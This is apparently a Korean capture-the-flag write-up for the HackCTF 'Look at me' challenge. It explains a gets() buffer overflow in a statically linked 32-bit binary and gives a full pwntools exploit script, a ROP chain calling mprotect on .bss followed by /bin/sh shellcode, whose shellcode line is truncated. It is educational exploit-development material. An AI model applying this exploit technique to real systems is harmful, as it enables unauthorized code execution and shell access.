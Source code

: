 ```yaml
---
layout: post
title:  "HacCTF look at me write-up"
date:   2020-02-03 19:45:55
image:  hackctf_lookatme.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] Look at me

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled.png)

PIE가 안걸려있다. 또한 이번 바이너리는 32bit이다.

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%201.png)

Hellooooo를 출력하고 입력할수 있는 공간이 나온다. 아무 문자나 입력하면 바로 종료가 되버린다. 이역시 바로 코드를 살펴보자.

**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%202.png)

메인을 보면 내가 알수 있는 함수는 look_at_me 하나이다. 나머지는 확인을 해봐도 복잡하ㄱ....

look_at_me함수를 봐보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%203.png)

엄청 단순하다. gets함수를 입력받고 끝난다. ret주소까지 덮을수 있다. 혹시 플래그를 출력해주는 함수가 있는지 아이다에서 찾아보자.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%204.png)

함수들이 굉장히 많은데, 그 이유는 해당 바이너리를 빌드시 라이브러리들을 동적으로 링킹해준것이 아닌, 정적으로 링킹을 해줬기 때문이다. 따라서 모든 라이브러리들이 다 보이는 것이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%205.png)

file 명령어로 확인해보면 정적 링킹이 되있다는 사실을 확인 할 수 있다. 하지만 이 많은 라이브러리들 중에 system함수가 존재하지 않는다. 대신, mprotect 함수가 존재한다.

mprotect 함수는 원하는 코드영역의 권한을 변경할 수 있는 함수이다. 다행이 해당 함수가 링킹되어있어서 이를 이용하면 될 것이다.  참고로 mprotect 함수는 아래처럼 생겼는데

    mprotect(원하는 주소, 사이즈, 권한)

여기서 원하는 주소 → 이부분은 0x1000의 배수가 되야한다. mmap에서 메모리를 할당할때 해당 크기만큼 할당해주기 때문이라 한다.

### 2. 접근방법

---

스택 영역은 aslr 때문에 주소를 구하기가 귀찮음으로 .bss 영역을 이용하자. 왜냐하면 해당 영역은 aslr이 걸려있어도 주소가 고정으로 세팅되어있기 때문이다.

따라서 ROP를 이용하여 .bss 영역에 쉘코드를 삽입하여 실행시키는 루틴으로 작업하면 된다. 대충 흐름은 다음처럼 구성하면 된다.

    1. ebp까지 더미값 채우기
    
    2. ret에 gets함수 넣기
    
    3. ret + 4에 가젯 -> pop ret -> 0x08048433
    
    4. ret + 8에 bss 주소 넣기 -> 0x080eaf80
    
    5. ret + 12에 mprotect 함수 주소 넣기 -> 0x0806e0f0
    
    6. ret + 16에 가젯 -> pop pop pop ret -> 0x080483c8
    
    7. ret + 24에 7 -> 권한
    
    8. ret + 28에 3000 -> 사이즈
    
    9. ret + 32에 bss_start 주소 -> 0x080ea000
    
    10. ret + 36에 bss주소 -> 0x080eaf80

요렇게 말이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%206.png)

또한 참고로 mprotect 의 첫번째 인자인 주소가 0x1000의 배수가 되야 한다고 했으므로, .bss 시작주소를 인자로 주고 사이즈를 10000정도 크게 주면, 해당 범위 아무곳에 쉘코드를 집어넣으면 편하다

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3017)
    #p=process("./lookatme",aslr=False)
    #gdb.attach(p,""" b* 0x0804889E """)
    
    gets_addr=p32(0x804f120)
    pr=p32(0x08048433)
    bss=p32(0x080eaf80)
    mprotect_addr=p32(0x0806e0f0)
    pppr = p32(0x0806f028)
    rwx=p32(7)
    size=p32(10000)
    bss_start=p32(0x080ea000)
    
    shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\$
    payload = "A"*28
    payload +=gets_addr
    payload +=pr
    payload +=bss
    payload +=mprotect_addr
    payload +=pppr
    payload +=bss_start
    payload +=size
    payload +=rwx
    payload +=bss
    
    p.sendlineafter("Hellooooooooooooooooooooo\n",payload)
    
    p.sendline(shellcode)
    
    p.interactive()

### 4. 몰랐던 개념

---

- mprotect 함수를 이용한 ROP